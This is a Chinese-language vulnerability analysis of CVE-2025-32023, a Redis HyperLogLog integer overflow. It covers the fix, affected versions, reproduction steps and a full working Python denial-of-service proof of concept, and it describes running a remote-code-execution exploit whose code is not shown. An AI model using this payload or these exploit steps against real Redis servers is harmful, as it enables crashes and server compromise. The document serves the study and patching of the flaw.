





# CVE-2025-32023 CWE-680 Redis 缓冲区溢出

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- **HyperLogLog（HLL）：**一种常用于估算不同元素基数（去重计数）的数据结构。它使用哈希函数和寄存器来压缩存储信息，在保持高准确度的同时，节省大量内存。有两种常见的编码方式：稠密（dense）编码：所有寄存器都存储具体的值；稀疏（sparse）编码：当 HLL 容量过大时，采用稀疏编码，只有部分寄存器实际存储数据，减少内存使用。
- **CWE-680（Integer Overflow to Buffer Overflow 整数溢出到缓冲区溢出）：**在程序中，整数溢出导致缓冲区溢出的漏洞。当程序使用不安全的整数运算（如加法、乘法等），导致计算结果超出了预定的边界范围（例如，超出了变量的最大值），从而产生意外的行为。如果该溢出值被用作缓冲区大小或数组的索引，攻击者可以通过操控这些溢出值来写入超出数组边界的内存区域，进而可能覆盖其他内存位置或执行恶意代码，造成数据损坏、信息泄露、程序崩溃或远程代码执行等安全问题。

## 漏洞原理

Redis 对 HyperLogLog (HLL) 数据结构的稀疏编码处理缺陷。在解析过程中，恶意构造的 HLL 数据会触发 整数溢出，从而导致 Redis 在对该数据执行合并或计数时进行 越界内存写入。攻击者通过精心设计的 HLL 编码，能够利用这一漏洞覆盖内存中的关键结构，进而可能导致 远程代码执行（RCE） 或 服务崩溃（DoS）。

## 漏洞定位

分析 Redis-7.4.2 源码：

在 src/hyperloglog.c 文件用于实现 HyperLogLog（HLL）这一概率数据结构。

在 Redis 的 HyperLogLog（HLL）实现中，第 **564** 行 `hllSparseToDense`、第 **894** 行`hllSparseAdd` 和 第 **1059** 行`hllMerge` 函数中，存在对稀疏编码（sparse encoding）数据结构的处理逻辑。在这些函数中，未对运行长度（run length）和当前索引（index）之和进行充分的边界检查，从而引发内存越界写入。

```cpp

```

## 漏洞修复

检查运行长度是否导致溢出。在处理每个操作码时，检查当前的运行长度 (`runlen`) 与当前索引 (`idx`) 的和是否超过了 HLL 寄存器的数量 (`HLL_REGISTERS`)。如果超过，标记为无效并跳出循环。

```c
if ((runlen + idx) > HLL_REGISTERS) {
    valid = 0;
    break;
}
```

验证解析结果的有效性。在解析完成后，检查标记是否有效以及最终的索引是否等于寄存器数量。如果无效或不匹配，释放内存并返回错误。

```c
if (!valid || idx != HLL_REGISTERS) {
    sdsfree(dense);
    return C_ERR;
}
```

## 影响范围

Reids：

-  2.8.0 to 6.2.18
-  7.2.0 to 7.2.9
-  7.4.0 to 7.4.4
-  8.0.0 to 8.0.2

## 环境搭建

启动 Docker 环境，Redis 版本为 7.4.2

```txt
NIST: NVD    Base Score:7.8 HIGH    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
CNA:GitHub, Inc.    Base Score:7.0 HIGH    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
```

```txt
cpe:2.3:a:redis:redis:7.4.2:*:*:*:*:*:*:*
```



## 漏洞复现

### PoC: DoS

1. 进入 PoC 文件夹，运行 PoC 代码，可以看到 Redis 服务器关闭了连接

   ```bash
   python CVE-2025-32023-PoC.py
   ```

   

3. 查看容器日志，可以看到 Redis 因为段错误而崩溃

   ```bash
   docker logs redis-7.4.2 
   ```

   

### EXP: RCE

1. 进入 EXP 文件夹，提取 Redis 二进制文件，把容器里的redis-server复制出来

   ```bash
   docker cp redis-container:/usr/local/bin/redis-server .
   ```

2. 创建 Python 虚拟环境

   ```bash
   python -m venv venv 
   ```

3. 启动 Python 虚拟环境

   ```bash
   source venv/bin/activate
   ```

4. 安装依赖

   ```bash
   pip install redis pwntools
   ```

   

5. 运行 EXP 文件，可以看到成功执行了 id 和 whoami 命令，ctrl + c 退出

   ```bash
   python CVE-2025-32023-EXP.py
   ```

   

## PoC分析

```python
#!/usr/bin/env python3

import redis

print("\n=== CVE-2025-32023 Redis DoS via HyperLogLog ===\n")

HOST, PORT = '127.0.0.1', 6379
r = redis.Redis(HOST, PORT)

# 使用 稀疏编码
HLL_SPARSE = 1

# 把单个整数 0~255 打包成 1 字节。
def p8(v):
  return bytes([v])

# 生成 XZERO 操作码，用于在 HLL 稀疏字符串里一次性声明 连续 sz 个寄存器值为 0
def xzero(sz):
  assert 1 <= sz <= 0x4000
  sz -= 1
  return p8(0b01_000000 | (sz >> 8)) + p8(sz & 0xff)

# 构造 畸形 HyperLogLog 字符串
pl = b'HYLL'
pl += p8(HLL_SPARSE) + p8(0)*3
pl += p8(0)*8
assert len(pl) == 0x10
pl += xzero(0x4000) * 0x20000   # (int)(0x4000 * 0x20000) = -0x80000000
pl += p8(0b1_11111_11)          # runlen = 4, regval = 0x20

# 写入 Redis
r.set('hll:exp', pl)

# 触发计算
r.pfcount('hll:exp', 'hll:exp')
```

通过重复 xzero(0x4000)，生成了大量的“零运行”编码段，总大小远远超过了 HLL_REGISTERS 的限制。在解析过程中，`runlen + idx` 的计算结果超过了 `HLL_REGISTERS`，导致溢出。由于溢出，Redis 在处理数据时可能会访问或修改不该访问的内存区域，导致内存越界写入。

## 参考链接

[NVD - CVE-2025-32023](https://nvd.nist.gov/vuln/detail/CVE-2025-32023)

[Fix out of bounds write in hyperloglog commands (CVE-2025-32023) · redis/redis@5018874](https://github.com/redis/redis/commit/50188747cbfe43528d2719399a2a3c9599169445)

[leesh3288/CVE-2025-32023: PoC & Exploit for CVE-2025-32023 / PlaidCTF 2025 "Zerodeo"](https://github.com/leesh3288/CVE-2025-32023)

[CVE-2025-32023 Redis 远程代码执行漏洞复现验证 – Huaxi Security Notes](https://blog.hx99.net/Tech/3107.html)

[CVE-2025-32023 Redis 漏洞分析](https://sechub.in/view/3085875)
